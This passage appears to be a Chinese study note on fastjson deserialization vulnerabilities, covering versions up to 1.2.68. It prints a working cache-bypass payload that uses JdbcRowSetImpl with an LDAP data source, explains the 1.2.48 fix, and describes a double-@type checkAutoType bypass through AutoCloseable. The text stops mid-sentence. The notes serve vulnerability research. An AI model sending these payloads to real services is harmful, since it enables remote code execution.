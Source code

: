 - 修复方案：
    - `TypeUtils`中关闭cache功能
    -  `java.lang.Class`加入黑名单

```json
    {"x1": {
            "@type": "java.lang.Class", 
            "val": "com.sun.rowset.JdbcRowSetImpl"
        }, 
        "x2": {
            "@type": "com.sun.rowset.JdbcRowSetImpl", 
            "dataSourceName": "ldap://x", 
            "autoCommit": true
        }
    }
```

### ~1.2.48修复方案

将java.lang.Class的hash加入黑名单

并且在 MiscCodec 处理 Class 类的地方，设置了cache 为 false

将TypeUtils.loadClass的重载函数的默认缓存开关设置为false


### ~‌1.2.68

checkAutoType函数的入参如下：

`ParserConfig#checkAutoType(String typeName, Class<?> expectClass, int features)`

#### JavaBeanDeserializer的利用


绕过`ParserConfig#checkAutoType(String typeName, Class<?> expectClass, int features)`

- `expectClass`不为null时，`expectClassFlag`为true
- typeName不在黑名单，`expectClassFlag`为true，
- 关键if：`if (!internalWhite && (this.autoTypeSupport || expectClassFlag))` 过判断后调用`TypeUtils.loadClass`
- 可通过连续2个@type字段设置此轮解析设置`expectClass` 同时进入`JavaBeanDeserializer`
- `{"@type": "java.lang.AutoCloseable","@type": "sun.rmi.server.MarshalOutputStream","field":"value"}`
- 并且前@type为后@type父类时才会return 否则抛异常，代码如下

    ```java
    if (expectClass != null) {
        if (expectClass.isAssignableFrom(clazz)) {
            TypeUtils.addMapping(typeName, clazz);
            return clazz;
        }
        throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
    }
    ```
选择使用`java.lang.AutoCloseable`的原因：
